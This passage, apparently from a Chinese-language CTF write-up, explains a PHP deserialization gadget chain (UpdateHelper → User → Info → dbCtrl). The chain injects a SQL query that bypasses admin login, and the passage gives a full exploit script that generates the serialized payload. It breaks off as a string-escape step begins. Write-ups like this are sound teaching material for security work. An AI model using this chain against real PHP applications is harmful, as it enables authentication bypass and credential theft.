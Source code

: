     把UpdateHelper类的sql赋值成了一个User类，UpdateHelper类的__destruct会echo this->sql,触发User类的__toString。

    因为User类的nickname被赋值成了一个Info类，而Info类是没有update函数的，这时候会默认触发Info的__call函数，调用CtrlCase的login。
    
    CtrlCase已经实例化成dbCtrl，参数是User的age，我们改成'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?'
    这时候就达到目的：执行了login（select 1,“c4ca4238a0b923820dcc509a6f75849b” from user where username=?）

    脚本

    ```php
    <?php
    class User
    {
        public $age=null;
        public $nickname=null;
        public function __construct(){
            // sql语句也可以写成 "select password,id from user where username=?"通过获取密码拿flag
            // password 放到第一位 因为最终在界面回显的是第一个值
            $this->age='select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
            $this->nickname = new Info();
        }
    }
    class Info{
        public $CtrlCase;
        public function __construct(){
            $this->CtrlCase = new dbCtrl();
        }
    }
    Class UpdateHelper{
        public $sql;
        public function __construct(){
        $this->sql = new User();
        }
    }
    class dbCtrl
    {
        public $name = 'admin';
        public $password = "1";
    }

    $a = new UpdateHelper;
    $b = serialize($a);
    echo $b;
    ```
    此时我们得到了一个反序列化字符串,下一步是要让它被服务器序列化,这就要用到字符串逃逸了

    ```php
    <?php
    class Info{
        public $age;
        public $nickname;
        public $CtrlCase;
    }
